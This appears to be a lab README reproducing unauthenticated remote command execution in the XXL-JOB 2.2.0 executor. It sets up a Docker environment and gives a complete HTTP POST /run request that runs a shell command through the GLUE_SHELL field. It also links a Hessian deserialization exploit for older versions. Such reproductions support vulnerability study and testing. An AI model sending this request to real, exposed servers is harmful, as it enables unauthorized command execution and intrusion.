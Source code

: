 # XXL-JOB Executor Unauthorized Access

[中文版本(Chinese version)](README.zh-cn.md)

XXL-JOB is a distributed task scheduling platform with core design goals of rapid development, simple learning, lightweight, and easy extensibility. It is now open source and has been integrated into many companies' production lines, ready to use out of the box.

XXL-JOB is divided into two parts: admin and executor, where the former is the backend management page and the latter is the task execution client. The executor has no authentication configured by default, allowing unauthorized attackers to execute arbitrary commands through the RESTful API.

References:

- <https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g>
- <https://landgrey.me/blog/18/>
- <https://github.com/OneSourceCat/XxlJob-Hessian-RCE>

## Environment Setup

Execute the following command to start XXL-JOB version 2.2.0:

```
docker compose up -d
```

After the environment is started, you can access the management end (admin) at `http://your-ip:8080` and the client end (executor) at `http://your-ip:9999`.

## Vulnerability Reproduction

Send the following data packet to the client (executor) to execute commands:

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](1.png)

The command `touch /tmp/success` has been successfully executed:

![](2.png)

Additionally, for XXL-JOB versions below 2.2.0 that don't have a RESTful API, we can execute commands through [Hessian deserialization](https://github.com/OneSourceCat/XxlJob-Hessian-RCE).
